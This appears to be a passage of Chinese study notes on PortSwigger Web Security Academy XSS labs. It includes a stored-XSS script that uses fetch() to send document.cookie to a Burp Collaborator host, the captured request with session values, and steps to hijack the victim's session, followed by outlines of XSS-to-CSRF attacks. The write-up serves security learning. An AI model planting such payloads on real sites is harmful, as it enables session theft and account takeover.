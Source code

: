 	2.窃取cookie：在评论框中输入以下语句：

	<script>
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
    </script>
	填入burp collaborator client生成的域名，然后访问网站主页，点击评论后，从burp collaborator client中得到cookie：
	
	POST / HTTP/1.1
    Host: icynmonzbipdvmg88b5ukqiw1n7dv2.burpcollaborator.net
    Connection: keep-alive
    Content-Length: 81
    sec-ch-ua: 
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
    sec-ch-ua-platform: 
    Content-Type: text/plain;charset=UTF-8
    Accept: */*
    Origin: https://ac521fd81fd26734c0c7286f001c0048.web-security-academy.net
    Sec-Fetch-Site: cross-site
    Sec-Fetch-Mode: no-cors
    Sec-Fetch-Dest: empty
    Referer: https://ac521fd81fd26734c0c7286f001c0048.web-security-academy.net/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-US
    
    secret=98FRJrWiMfF8z4H6RWRYBilmRfPPifZf; session=bWXDWqFNLPdH26x0Yfg2FYNCIguJNIuQ

	3.点击'home'返回主页，抓取这个请求包，将session替换成获取的session，即模拟了受害者，完成。


####lab3：利用XSS窃取密码####
**靶场在BLOG的评论功能中包含一个XSS漏洞。受害者会浏览所有的评论。攻击者需要利用漏洞窃取受害者的用户名和密码，要求登录受害者的账户。**

####lab4：利用XSS执行CSRF####
**合法用户能在网站上做的所有事，攻击者利用XSS也能够做。利用目标网站，攻击者可能可**以让受害者发送消息，接受好友邀请，提交后门或者转让BIT币等等。

有些网站允许登录状态的用户修改email地址，而不用重新输入密码。如果攻击者发现了XSS漏洞，它能够修改受害者的邮箱，然后重置密码，接管该账户。

这类的利用通常称为CSRF。当CSRF作为独立漏洞发生时，可以添加补丁，如防御CSRF的token。然而当XSS漏洞也存在时，这些防御策略无法提供保护。

####3.3不同上下文中的反射型XSS####
反射型XSS存在很多中变形。应用程序响应中反映的数据的位置决定了利用该漏洞所需的有效负载类型，并可能影响漏洞的效果。同时，如果应用在提交数据之前执行了其他操作，也会影响使用那种XSS payload

当测试反射型和存储型XSS（从攻击者角度无需区分，从学习角度需要区分），关键是鉴别XSS的上下文：
	
	- 攻击者可控的数据存在于响应中
	- 应用对该数据有效化验证和其他操作
基于这样的细节，可以选择多个备用的XSS payload，然后测试其有效性。
####3.3.1 HTML tag之间的XSS####
当xss上下文是文本，并且存在于HTML 的tag之间时，攻击者需要引入一些新的HTML tag来触发javascript。
一些有效的执行JavaScript方法有：
